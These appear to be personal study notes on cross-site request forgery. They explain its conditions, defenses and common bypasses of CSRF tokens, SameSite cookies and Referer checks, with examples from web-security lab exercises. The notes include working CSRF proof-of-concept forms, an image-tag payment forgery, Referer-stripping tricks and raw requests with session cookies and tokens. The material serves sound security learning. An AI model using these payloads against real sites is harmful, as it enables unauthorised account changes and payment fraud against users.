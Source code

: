 
>[!question] What is CSRF?
>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This allows attacker to partially circumvent the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md).

>[!note]
>If you find yourself in a SameSite scenario, you can perform [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) attacks.

An HTTP request can be generated in thousands of ways, including with the following code:

```html
<img src="http://crypto.example.com/pagamenti.php?importo=300&wallet=Id_attacker_wallet" >
```

If a [crypto.example.com](http://crypto.example.com/) domain exists, attaching the following code to an e-mail would enable a victim to be defrauded by a request that was never made actively.

## How does CSRF work?

Three different key conditions must be satisfied:

- **A relevant action**: There is an action within the application that the attacker has a reason to induce. (payments, changing user's data, etc.)
- **Cookie-based session handling**: There is no other mechanism in place for tracking sessions or validating user requests besides cookies.
- **No unpredictable request parameters**: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

>[!note]
>Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

## Basic PoC

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Defenses against CSRF attacks

### CSRF tokens

>[!question] What is a CSRF token?
>**CSRF tokens** are a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, the client must include the correct CSRF token in the request.

#### Common bypasses and flaws

- **Validation of CSRF token depends on request method**: 
  Some applications correctly validate the token when the request uses a specific method but skip the validation when other methods are used.

- **Validation of CSRF token depends on token being present**:
  Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

- **CSRF token is not tied to the user session**:
  Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool. In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

- **CSRF token is tied to a non-session cookie**:
  Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. If the web site contains **any behavior that allows an attacker to set a cookie in a victim's browser**, then an attack is possible.
  >[!note]
  >The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.
  
  >[!example]
  >Vulnerable request which allows to set arbitrary cookies:
  >![CSRF](../../zzz_res/attachments/CSRF1.png)
  >CSRF request using a secondary cookie to verify CSRF owner:
  >```http
POST /my-account/change-email HTTP/1.1
Host: 0ab300650480e718c04b4561003a00e1.web-security-academy.net
Cookie: LastSearchTerm=test; csrfKey=Rgkjc4H27R86RdwCHABNut5IkSp27ptL; session=dP0hnLqpEuSTZI6o04EOafAnL1RiVYMx
Content-Length: 59
Content-Type: application/x-www-form-urlencoded
Connection: close
>
email=test%40test.com&csrf=waQRtvxCwZbNaHazxoQTU9HXCFw4PZ6S
>```

- **CSRF token is simply duplicated in a cookie**:
  In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter (**double-submit pattern**). This is sometimes called the "double submit" defense against CSRF. Like before, the attacker can again perform a CSRF attack if the web site contains any [Cookie Fixation](Header%20Fixation.md) or [Cookie Tossing](Cookie%20Tossing.md) vulnerability. Here, the attacker doesn't need to obtain a valid token of their own.
  >[!example]
  >```http
  >POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
>
>csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
>``` 
^a150b3

![](attachments/CORF-double-submit.png)
### SameSite attribute on cookies

>[!question] What is the [SameSite Cookie Attribute](SameSite%20Cookie%20Attribute.md) for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

#### Common bypasses and flaws
- [Bypass SameSite Lax restrictions using GET requests](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20Lax%20restrictions%20using%20GET%20requests)
- [Bypass SameSite Lax restrictions with newly issued cookies](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20Lax%20restrictions%20with%20newly%20issued%20cookies)
- [Bypass SameSite restrictions using on-site gadgets](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20restrictions%20using%20on-site%20gadgets)
- [Bypass SameSite restrictions via vulnerable sibling domains](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20restrictions%20via%20vulnerable%20sibling%20domains)
	- In this case we are talking about [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) attacks because SameSite does not apply



### Referer-based validation

^7c9e8d

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, by verifying that the request originated from the application's own domain.

#### Common bypasses and flaws

- **Validation of Referer depends on header being present**:
  Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: `<meta name="referrer" content="never">`
>[!example]
>```html
><html>
><meta name="referrer" content="never">
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/')</script>
>    <form action="https://0a85006803036428c2d207fe00770035.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

- **Validation of Referer can be circumvented**:
  Some applications validate the `Referer` header in a naive way that can be bypassed (eg. appending or adding at the end of the query string the desired domain). However, refer to [evading restrinctions](Evading%20Restrictions.md#Other%20resources) for further techniques.
>[!warning]
>Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, **many browsers now strip the query string from the Referer header by default**. You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.

   >[!example]
   >Response header must include `Referrer-Policy: unsafe-url`
>```html
><html>
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/exploit?a=https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net')</script>
>    <form action="https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```
- **Using [Open Redirection](Open%20Redirection.md)**:
  If you can find a DOM-based Open Redirection vulnerability, you can use it to instantiate your CSRF attack and chain it with method switching.
## Other bypass and tricks
- [Cross-Site POST Requests Without a Content-Type Header](../../Readwise/Articles/Luke%20Jahnke%20-%20Cross-Site%20POST%20Requests%20Without%20a%20Content-Type%20Header.md) 
